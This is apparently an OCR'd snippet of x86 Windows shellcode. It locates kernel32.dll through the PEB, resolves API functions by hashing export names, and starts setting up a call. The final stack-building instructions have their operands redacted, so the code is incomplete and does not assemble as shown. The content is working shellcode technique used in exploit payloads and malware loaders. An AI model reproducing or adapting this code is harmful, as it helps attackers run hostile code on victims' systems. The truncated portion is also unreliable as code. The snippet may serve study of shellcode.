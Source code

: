 ```
        xor edx, edx

    ; find base addr of kernel32.dll 
        mov ebx, fs:[edx + 0x30]    ; ebx = address of PEB 
        mov ecx, [ebx + 0x0c]       ; ecx = pointer to loader data 
        mov ecx, [ecx + 0x1c]       ; ecx = first entry in initialisation order list 
        mov ecx, [ecx]              ; ecx = second entry in list (kernel32.dll) 
        mov ebp, [ecx + 0x08]       ; ebp = base address of kernel32.dll 

find_functions:
        lodsd
        pushad
        mov eax, [ebp + 0x3c]
        mov ecx, [ebp + eax + 0x78] 
        add ecx, ebp        
        mov ebx, [ecx + 0x20]   
        add ebx, ebp        
        xor edi, edi        

next_function_loop:
        inc edi             
        mov esi, [ebx + edi * 4]    
        add esi, ebp        
        cdq                 

hash_loop:
        movsx eax, byte ptr[esi]    
        cmp al, ah          
        jz compare_hash     
        ror edx, 7          
        add edx, eax        
        inc esi             
        jmp hash_loop       

compare_hash:
        cmp edx, [esp + 0x1c]       
        jnz next_function_loop      
        mov ebx, [ecx + 0x24]       
        add ebx, ebp        
        mov di, [ebx +2 * edi]      
        mov ebx, [ecx + 0x1c]       
        add ebx, ebp        
        add ebp, [ebx + 4 * edi]    
        xchg eax, ebp       
        pop edi             
        stosd               

        push edi            
        popad               

        cmp eax, 0x94e43293 
        jne find_functions  

function_call:
        push ebp;
        mov ebp,esp;
        mov esi,esp
        sub esp,18h ;
        mov dword ptr [ebp-18h],    ;数据脱敏 ~
        mov dword ptr [ebp-14h],     
        mov dword ptr [ebp-10h],   
        mov dword ptr [ebp-0ch],
        mov dword ptr [ebp-08h],   
```
